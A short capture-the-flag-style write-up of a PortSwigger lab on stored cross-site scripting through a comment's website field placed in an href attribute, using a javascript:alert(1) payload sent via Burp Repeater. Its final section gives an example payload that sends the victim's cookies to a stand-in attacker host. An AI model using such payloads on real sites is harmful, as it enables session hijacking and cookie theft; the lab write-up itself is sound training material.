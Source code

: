 # 

## Lab Loc:
> https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded

## About Lab Summary
In this attack, I exploited a stored cross-site scripting vulnerability by injecting 
a JavaScript payload into the `website` field of a comment. The website placed that input directly inside an anchor tag like:
```html
<a href="...">Name</a
```
So i injected:
```js
javascript:alert(1)
```
This turned the whole link into a `JavaScript trigger`. When a user clicks the name, the payload executes.

## Procedure
- Went to the blog post and submit a comment:
- Name: Cybernerdddd
- Email: cy@x.com
- Website: any string, I used(abc123)
- Comment: stored xss test

Used Burp Suite to intercept the request
Sent it to Repeater and replaced the website with
```js
javascript: alert(1)
```
- Click Send in Repeater
- Reload the post page and click on the name -> alert box triggered!!!

## Why it worked
The app inserts your website into:
```
<a href="USER_INPUT">Name</a>
```
so if the input is javascript.... , clicking the name will run js

## Why this is dangerorus
> This could be used to:
> Steal cookies
> Hijack sessions
> Load fake login pages
**Example**
`website=javascript:fetch('https://attacker.site?c='+document.cookie)`

